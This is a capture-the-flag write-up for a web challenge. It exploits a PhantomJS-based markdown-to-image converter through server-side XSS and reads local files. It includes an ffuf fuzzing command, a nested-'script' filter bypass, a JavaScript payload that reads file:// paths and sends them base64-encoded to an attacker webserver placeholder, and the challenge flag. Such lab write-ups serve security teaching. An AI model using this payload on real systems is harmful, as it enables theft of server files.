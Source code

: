 **The credits for creating this challenge go to: ![0xPwny](https://twitter.com/0xpwny)**

# Light recon:
Looking at the response headers `Server: Apache/2.4.18 (Ubuntu)`,  and the source code (which contains a `mstafa.php`) we will assume that we're dealing with PHP web application.

After doing a some light fuzzing, nothing interesting shows up except `flag.php`:  

```sh
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -u https://thnbdarija-xxconverters.chals.io/FUZZ -ac -c -v -e .php
[...Snip...]
[Status: 200, Size: 0, Words: 1, Lines: 1]
| URL | https://thnbdarija-xxconverters.chals.io/flag.php
    * FUZZ: flag.php
```

Browsing to it reveals nothing (so we must read it using LFI/RCE/SSTI/XXE ...)

# Markdown to PNG? : 
The form is rather simple, you submit something and it gets written to an image file which is sent back to us:

![image](https://user-images.githubusercontent.com/92731777/163899463-9e99e247-a015-4c20-90c3-3da55acaa11d.png)
![image](https://user-images.githubusercontent.com/92731777/163899634-50fd0257-da8a-4b51-8e6c-8e1ad257950b.png)

Our request/response combo looks like this:

![image](https://user-images.githubusercontent.com/92731777/163899581-1a914fe1-6b05-4663-b6ab-0e3a6d654d7e.png)

Filenames are random, the only possible attack vector is LFI/Command injection (if for example a router takes our input (filename) and looks for it in another directory besides `pics/`/ concatenates it with a command) but i won't go through it for now and i'll assume that the files are processed THEN written inside `pics/` directory.

This kind of converters have been generally vulnerable to the so called "server side" XSS (e.g dynamic pdf generators) where you can basically inject some html/js code that fetches local files, do SSRF etc...

Let's test that out:

![image](https://user-images.githubusercontent.com/92731777/163900258-ac67689b-113f-4c09-aeb5-06550de40919.png)


It wasn't reflected as text this time but as html instead, we got a potential XSS. Let's see if we can run Javascript code:

![image](https://user-images.githubusercontent.com/92731777/163900525-70325620-ab2f-4e62-ab97-f59d0396f4dd.png)


Yes we can, did you noticed that "script" has been stripped out? [spoiler: there's a WAF in action ;) ]

Running Javascript code like this is cumbersome (e.g you have to escape quotes every now and then when writing complex code). So, let's see if we can include remote script:

![image](https://user-images.githubusercontent.com/92731777/163900570-a6771503-178b-48da-b7f0-5459cd3cfcaa.png)

As mentioned, "script" has been stripped by the server, a common bypass for this is nesting one inside another like `scrscriptipt`, which results in the "outer" script to be concatenated.

Aaaaand we got a request: 

![image](https://user-images.githubusercontent.com/92731777/163901661-90286b32-c248-414f-84be-77bf76ef3e57.png)

# Time to stop joking about XSS:
Looking at the `User-Agent` header we can see `PhantomJS/2.1.1` which is a headless browser, after googling for any known vulnerability/PoC we will come across this one: https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/


TL;DR: We make the server load our remote script, which reads local files using `file://` scheme, and sends the base64 encoded file back to us.
	
`innocent.js` content:
```js
function reqListener () {
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('<iframe src="http://<your_webserver>/exfil?data='+b64+'"></iframe>');
} 
var oReq = new XMLHttpRequest(); 
oReq.addEventListener("load", reqListener); 
oReq.open("GET", "file:///etc/hosts"); // file to read
oReq.send();
```

Sping up your webserver to host the file and make the target server include it.

![image](https://user-images.githubusercontent.com/92731777/163900753-305c7a72-d703-4903-81e4-ad9d11ff1fc8.png)

aaand we got a hit with the file being sent back to us:

![image](https://user-images.githubusercontent.com/92731777/163901852-c38fb581-ca2b-476f-a594-7837ba2949ee.png)

`/etc/hosts` file content: 

![image](https://user-images.githubusercontent.com/92731777/163900719-5ed911a2-7932-42a3-ab44-547b054fec59.png)

Local file read confirmed.
Remember that `/flag.php` file? by default apache hosts files under `/var/www/html/`, let's check if it's there

Same drill, edit the file to read and resend the XSS payload, after getting a hit on your local webserver base64 decode the exfil parameter's content:

![image](https://user-images.githubusercontent.com/92731777/163901826-ae56c7a7-0f96-4650-8bbc-40252d86e1cb.png)

Flag: `thnb{3aaaaw3d_D3rd4k_aAasi_xsser}`



